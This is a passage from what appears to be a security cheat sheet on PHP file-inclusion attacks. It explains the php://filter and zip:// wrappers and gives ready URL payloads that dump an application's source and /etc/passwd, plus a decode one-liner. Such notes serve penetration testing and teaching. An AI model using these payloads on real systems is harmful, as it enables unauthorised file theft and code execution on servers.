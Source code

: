 ### php://filter

[`php://filter`](https://www.php.net/manual/en/wrappers.php.php#wrappers.php.filter) is a kind of meta-wrapper
that allows filtering a stream
before the content is read.
The resulting data
is the encoded version
of the given file's source code.

{{<hint info>}}
Multiple [filter](https://www.php.net/manual/en/filters.php) chains can be specified on one path,
chained using `|` or `/`.
{{</hint>}}

#### Filter [string.rot13](https://www.php.net/manual/en/filters.string.php#filters.string.rot13).

```text
http://{{< param "war.rdomain" >}}/index.php?page=php://filter/read=string.rot13/resource=index.php
```

#### Filter [convert.base64](https://www.php.net/manual/en/filters.convert.php#filters.convert.base64).

```text
http://{{< param "war.rdomain" >}}/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://{{< param "war.rdomain" >}}/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

#### Filter chaining [zlib.deflate](https://www.php.net/manual/en/filters.compression.php#filters.compression.zlib) and [convert.base64](https://www.php.net/manual/en/filters.convert.php#filters.convert.base64).

```text
http://{{< param "war.rdomain" >}}/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

##### Base64 decode and gzip inflate.

The resulting encoded string
can be decoded and inflated
by piping it into the following PHP script:

```sh
echo [BASE64-STR] | php -r 'echo gzinflate(base64_decode(file_get_contents("php://stdin")));'
```

### zip://

[zip://](https://www.php.net/manual/en/wrappers.compression.php) is a wrapper for zip compression streams.
To leverage the zip functionalities,
upload a zipped PHP script to the server
(with the preferred extension)
and decompress in the server
using the `zip://<zipfile>#<file>`,
being `<file>` the resulting decompressed file.


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.